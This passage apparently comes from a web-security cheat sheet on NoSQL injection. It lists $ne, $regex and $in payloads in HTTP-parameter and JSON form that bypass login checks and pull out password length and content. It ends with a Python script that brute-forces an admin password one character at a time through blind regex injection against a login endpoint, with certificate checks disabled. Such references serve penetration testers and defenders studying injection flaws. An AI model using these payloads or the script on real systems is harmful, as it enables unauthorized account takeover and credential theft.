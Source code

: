 
### Extract Length Information

Inject a payload using the $regex operator. The injection will work when the length is correct.

```ps1
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Extract Data Information

Extract data with "`$regex`" query operator.

* HTTP data
  ```ps1
  username[$ne]=toto&password[$regex]=m.{2}
  username[$ne]=toto&password[$regex]=md.{1}
  username[$ne]=toto&password[$regex]=mdp

  username[$ne]=toto&password[$regex]=m.*
  username[$ne]=toto&password[$regex]=md.*
  ```

* JSON data
  ```json
  {"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
  {"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
  {"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
  ```

Extract data with "`$in`" query operator.

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```


## Blind NoSQL

### POST with JSON Body

Python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```
